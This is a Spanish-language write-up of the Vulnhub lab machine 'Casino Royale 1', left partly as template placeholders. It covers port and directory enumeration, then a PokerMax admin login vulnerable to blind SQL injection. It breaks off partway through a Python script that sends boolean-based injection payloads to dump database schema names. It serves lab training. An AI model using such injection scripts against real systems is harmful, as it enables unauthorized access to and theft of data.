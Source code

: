 
## Información General

- **Nombre de la máquina**: Casino Royale 1
- **Fecha de realización**: [[2024-04-02]]
- **Nivel de dificultad**: Medio
- **Sistema Operativo**: Linux
- **Plataforma**: Vulnhub
- **Enlace de la máquina**: [Enlace a la plataforma donde se encuentra la máquina]

## Resumen
[Un breve resumen de la máquina y las técnicas utilizadas para comprometerla.]

## Enumeración y Reconocimiento

Comenzamos enumerando los puertos de la maquina

![[Pasted image 20240402094410.png]]

Vemos que hay varios puertos abiertos entre ellos los correspondientes a los servicios http, smtp y ftp empezaremos investigando el puerto 80 donde al entrar desde el navegador vemos solo lo siguiente 

![[Pasted image 20240402095045.png]]

Al analizar toda la pagina no encontre nada intresante por lo que me puse a enumerar los directorios con ayuda de wfuzz y fue haciendo esto que encontre varios directorios intresantes


![[Pasted image 20240402102004.png]]

Revisando todos los directorios me tope con el directorio de install el cual al entrar a este nos muestra una pagina de instalacion de un software llamado PokerMax Poker League


![[Pasted image 20240402103840.png]]

Investigando en foros parece ser que hay login en el endpoint pokeradmin por los que nos dirigimos ahi y efectivamente hay un login

![[Pasted image 20240402104256.png]]

Este es vulnerable a Inyección SQL, más específicamente una boolean based blind, aunque puede que no sea el único tipo al que es vulnerable. Por lo tanto, he creado un script en Python que enumera los datos explotando la Inyección SQL presente en el login. El script es el siguiente:


```python
import requests
import pandas as pd
from tabulate import tabulate

url = "http://192.168.0.49/pokeradmin/"
headers = {"Content-Type": "application/x-www-form-urlencoded"}


def makeSQLI():
    posicion = 1
    char = 30
    db = ""

    while True:
        data = {
            "op": "adminlogin",
            "username": f"juan' or ascii(substring((select group_concat(schema_name) from information_schema.schemata),{posicion},1))={char}-- -",
```
